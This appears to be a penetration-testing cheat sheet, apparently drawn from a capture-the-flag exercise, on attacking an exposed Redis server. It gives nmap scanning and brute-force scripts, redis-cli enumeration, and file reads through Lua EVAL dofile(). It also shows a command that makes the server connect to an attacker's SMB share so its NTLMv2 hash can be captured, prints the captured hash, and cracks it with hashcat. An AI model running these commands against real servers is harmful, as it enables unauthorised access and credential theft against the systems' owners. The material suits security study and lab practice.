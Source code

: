 Redis is an open-source, in-memory data structure store used as a database, cache, and message broker. It supports various data types, offers high performance with low latency, and provides features like persistence, replication, and pub/sub messaging, making it ideal for real-time applications and high-performance scenarios.<br>

>Default Port: 6379

nmap
-----
```
sudo nmap -p 6379 -A $IP
sudo nmap -sV -p 6379 --script=redis-info.nse $IP
sudo nmap -sV -p 6379 --script=redis-brute.nse $IP
```
enumeration
-----------
```
redis-cli -h $IP
redis-cli -h $IP --pass password1234

redis> info
redis> INFO
redis> client list
redis> CONFIG GET *   # displays the current config of the redis server. 
````

exploits
---------

Redis can execute Lua scripts (in a sandbox, more on that later) via the “EVAL” command. The sandbox allows the ```dofile()``` command (WHY???). It can be used to **enumerate files and directories**. No specific privilege is needed by Redis… If the Lua script is syntaxically invalid or attempts to set global variables, **the error messages will leak some content of the target file**.

**access file on server:**
```
redis-cli -h $IP
> eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
```
**obtaining the NTLMv2 Hash / User’s password**

Now that we know that we can access files on the server, we can try to do some more advanced stuff. We could try to access a remote share. This would leak the NTLM hash of the user as he/she tries to authenticate himself/herself. If this remote share is on our machine, we could attempt to log the access and thus get access to the hash.

<br>

For that, we first set up a listener using ```smbserver.py```:
```
sudo /home/kali/.local/bin/smbserver.py shared ~/test -smb2support
```

Then, we use the redis eval technique to access the exposed share:
```
redis-cli -h <target ip> eval "dofile('//<our ip>/shared')" 0 
```
We will got an error like this :
```
(error) ERR Error running script (call to f_3019311747b91dc48629be28b00631986c617817): @user_script:1: cannot open //10.8.14.69//shared: Invalid argument 
```
But the user hash we will be exposed through our smb server:
```
[*] Closing down connection (10.10.49.209,49896)
[*] Remaining connections []
[*] Incoming connection (10.10.49.209,49916)
[*] AUTHENTICATE_MESSAGE (VULNNET\enterprise-security,VULNNET-BC3TCK1)
[*] User VULNNET-BC3TCK1\enterprise-security authenticated successfully
[*] enterprise-security::VULNNET:aaaaaaaaaaaaaaaa:386b865cb1193740e045f6e47e1e36fb:010100000000000000cd31f8890bdb017eeb9e3a31aeef3700000000010010007300700057006b006a0057004c006b00030010007300700057006b006a0057004c006b00020010007700570062007200500061004500780004001000770057006200720050006100450078000700080000cd31f8890bdb01060004000200000008003000300000000000000000000000003000009d421d079a542bc0c77c58828668731b9291737d6e1c4186400fe57de2a70fae0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e00310034002e00360039000000000000000000
[*] Closing down connection (10.10.49.209,49916)
[*] Remaining connections []
```
**Crack NTLMv2 hash**

After that we need to crack this hash to dump the user password.<br>
first, we need to create tha hash file:
```
$ nano hash
$ cat hash
enterprise-security::VULNNET:aaaaaaaaaaaaaaaa:386b865cb1193740e045f6e47e1e36fb:010100000000000000cd31f8890bdb017eeb9e3a31aeef3700000000010010007300700057006b006a0057004c006b00030010007300700057006b006a0057004c006b00020010007700570062007200500061004500780004001000770057006200720050006100450078000700080000cd31f8890bdb01060004000200000008003000300000000000000000000000003000009d421d079a542bc0c77c58828668731b9291737d6e1c4186400fe57de2a70fae0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e00310034002e00360039000000000000000000
```
then :
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

